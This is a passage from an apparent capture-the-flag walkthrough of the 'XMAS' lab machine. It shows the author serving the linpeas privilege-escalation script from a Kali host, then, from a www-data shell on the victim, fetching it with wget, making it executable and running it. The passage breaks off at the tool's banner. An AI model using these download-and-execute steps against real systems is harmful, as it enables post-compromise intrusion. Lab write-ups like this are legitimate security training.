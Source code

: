 ```bash
└─$ cp /usr/share/peass/linpeas/linpeas.sh .
```
Next we can host a simple Python webserver so we can share linpeas.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ sudo python3 -m http.server 80
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


```
Now we have to download linpeas on our victim machine and assign the executable rights.
```bash
www-data@xmas:/$ cd /tmcd /tmp
cd /tmp
www-data@xmas:/tmp$ wget hwget http://10.0.2.15/linpeas.sh
wget http://10.0.2.15/linpeas.sh
--2023-11-21 08:57:25--  http://10.0.2.15/linpeas.sh
Connecting to 10.0.2.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 836755 (817K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 817.14K  --.-KB/s    in 0.004s  

2023-11-21 08:57:25 (227 MB/s) - ‘linpeas.sh’ saved [836755/836755]

www-data@xmas:/tmp$ chmod chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@xmas:/tmp$ 

```
Let's run linpeas!
```bash
www-data@xmas:/tmp$ ./linp./linpeas.sh
./linpeas.sh


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
```